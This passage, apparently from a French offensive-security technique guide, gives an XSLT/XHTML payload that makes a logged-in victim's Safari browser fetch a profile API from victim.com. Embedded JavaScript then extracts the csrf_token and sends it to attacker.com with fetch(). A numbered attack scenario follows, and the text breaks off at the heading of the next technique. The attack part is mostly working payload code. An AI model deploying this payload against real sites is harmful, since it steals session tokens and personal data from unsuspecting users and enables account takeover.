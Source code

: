 ```xml
      
      <tr>
        <td><b>copy-of:</b></td>
        <td>
          <textarea id="copyOf" rows="10" cols="100">
            <xsl:copy-of select="$url"/>
          </textarea>
        </td>
      </tr>
      
      <tr>
        <td><b>Données volées:</b></td>
        <td>
          <input type="text" id="stolen"/>
          <script type="text/javascript">
            // Extraire les données sensibles
            var copyOf = document.getElementById("copyOf").value;
            var token = copyOf.match(/csrf_token":\s*"([^"]+)"/);
            if(token) {
              document.getElementById("stolen").value = token[1];
              // Exfiltrer vers serveur attaquant
              fetch('https://attacker.com/steal?data=' + token[1]);
            }
          </script>
        </td>
      </tr>
    </xsl:if>
    <xsl:apply-templates/>
  </xsl:template>

  <!-- URL cible à voler -->
  <read>
    <url>https://victim.com/api/user/profile</url>
  </read>

</xsl:stylesheet>
```

**Scénario d'attaque :**

1. Victime connectée à `victim.com`
2. Ouvre `xoss.xhtml` dans Safari
3. XSLT charge `https://victim.com/api/user/profile` avec les cookies de la victime
4. JavaScript extrait les données sensibles
5. Données exfiltrées vers `attacker.com`

**⚠️ Uniquement Safari est vulnérable à cette attaque !**

***

#### 🎯 Technique 9 : Perte de précision (Exploitation de logique)
